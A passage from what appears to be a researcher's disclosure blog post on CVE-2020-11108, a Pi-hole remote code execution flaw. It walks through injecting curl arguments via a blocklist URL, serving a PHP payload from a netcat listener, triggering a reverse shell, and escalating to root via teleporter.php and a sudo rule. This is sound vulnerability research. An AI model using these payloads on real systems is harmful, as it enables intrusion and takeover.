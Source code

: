 <center><img src="/images/blog/cve-2020-11108-pihole-rce/2.png" /></center><br>

<p><b>Step 7:</b> If your payload was a reverse shell, set up your listener. Then curl <code>/admin/scripts/pi-hole/php/fun.php</code>. This will trigger your payload. Congrats, you’ve just gotten RCE on Pi-hole!</p>

<center><img src="/images/blog/cve-2020-11108-pihole-rce/3.png" /></center><br>

<p><b>Conditional RCE:</b> In addition to being authenticated to the web application, the Pi-hole service must set its <a href="https://docs.pi-hole.net/ftldns/blockingmode/">BLOCKINGMODE</a> configuration to NXDOMAIN to be exploitable. This is explained in detail during the technical analysis.</p>

<p><b>Step 1:</b> Navigate to Settings > Blocklists</p>

<p><b>Step 2:</b> Disable all existing block lists (speeds things up), then enter the following payload as a new URL.</p>

<center><code>http://192.168.122.1#" -o fun.php -d "</code></center><br>

<p>Where the IP address is an address you control. Note that the <code>#</code> character is required and the space after <code>-d</code> is also required. Once entered you can click Save.</p>

<p><b>Step 3:</b> Set up a netcat listener on port 80 (The payload can be modified to support other ports, however some backend parsing of the ':' character make this more of an annoyance than is worth changing).</p>

<p><b>Step 4:</b> Click "Save and Update"</p>

<p><b>Step 5:</b> After a few seconds you will receive a GET request that will include ':80:'. This is indicative that BLOCKINGMODE is set to NXDOMAIN and that the exploit was successful. Hit enter, and then paste whatever PHP payload you’d like. A shell function call works very nicely. Then hit Ctrl+c to kill netcat.</p>

<center><img src="/images/blog/cve-2020-11108-pihole-rce/4.png" /></center><br>

<p><b>Step 6:</b> If your payload was a reverse shell, set up your listener. Then curl <code>/admin/scripts/pi-hole/php/fun.php</code>. This will trigger your payload. Congrats, you’ve just gotten RCE on Pi-hole!</p>

<p><b>Privilege Escalation:</b> After gaining a shell on the box you can escalate privileges through the following means.</p>

<p><b>Step 1:</b> Re-do either of the previous exploits, this time overwriting teleporter.php (instead of writing to fun.php).</p>

<center><code>http://192.168.122.1#" -o teleporter.php -d "</code></center><br>

<p><b>Step 2:</b> With a shell you’ve gained previously, run <code>sudo pihole -a -t</code> (www-data has a sudo rule to call pihole). This command will call teleporter.php as root. If you’ve overwritten it with a reverse shell payload (for example) you will be root.</p>

<center><img src="/images/blog/cve-2020-11108-pihole-rce/5.png" /></center><br>

<h3>Discovery</h3>

<p>The initial discovery was purely by accident. In a previous <a href="https://frichetten.com/blog/escalating-deserialization-attacks-python/">blog post</a> I described how to perform deserialization attacks against Python. As a follow up, I wanted to replicate this for PHP applications. While writing that post (it will come eventually I swear!) I started poking at some applications I run on my home network that use PHP.</p>
